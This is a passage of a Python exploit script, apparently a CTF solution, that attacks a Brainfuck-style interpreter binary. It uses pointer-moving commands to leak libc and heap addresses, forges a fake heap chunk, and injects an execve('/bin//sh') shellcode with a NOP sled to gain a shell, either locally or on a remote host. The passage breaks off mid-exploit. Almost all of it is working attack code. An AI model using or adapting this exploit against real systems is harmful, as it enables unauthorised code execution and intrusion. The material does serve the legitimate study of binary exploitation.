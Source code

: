 ```python
        payload = ">" * abs(move)

    payload += ",>"*len(content)
    if scmd:
        payload += scmd
        content += scontent
    payload = payload.ljust(512, "B")
    
    cmd(payload)
    r.sendline(content)


def leak(move, cnt):
    if move < 0:
        payload = "<" * abs(move)
    else:
        payload = ">" * abs(move)

    payload += ".>"*cnt
    payload = payload.ljust(512, "B")
    
    cmd(payload)
    r.recv(1024) # ¯\_(ツ)_/¯ 
    ret = r.recvuntil(">>")[:-2:]
    r.unrecv(">>")
    return ret

sc = "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"

if __name__ == "__main__":

    r = None
    if len(sys.argv) == 2:
        r = process(ELF_PATH)
    else:
        r = remote(HOST, PORT)
    
    # make unsortbin + libc address
    cmd("A"*512)

    # leak
    libc.address = u64(leak(0x110, 8)) - 0x3c3b78 # local
    log.success("libc base: "+hex(libc.address))
    heap_addr = u64(leak(-0x30, 8))
    log.success("heap_addr: "+hex(heap_addr))
    fake_chunk = heap_addr - 0x70
    log.success("fake_chunk: "+hex(fake_chunk))
    sc_buf = heap_addr + 0x3b0# our shellcode buffer
    log.success("sc_buf: "+hex(sc_buf))

    # fake chunk
    write(-0x78, p64(0x111) )
    special = "<"*0xd0 + ",>"*8
    # fake next size
    write(0x98, p64(0x71),special, p64(fake_chunk))
    # create gets-like function, puts shellcode @ 0xXXXXX000 ( our shellcode buffer)
    cmd(",[>.,]>>>>>>>>>,[>.,]")
    payload = "i"*0x108 + "\xa1\x01\x02\x00" # fake next size
    payload += "i"*0x190
    payload += "\x90"*0x10 + sc + "\x00"
    r.send(payload)
    # overwrite bf_data, make bf_data->sc_buf point to our shellcode buffer
```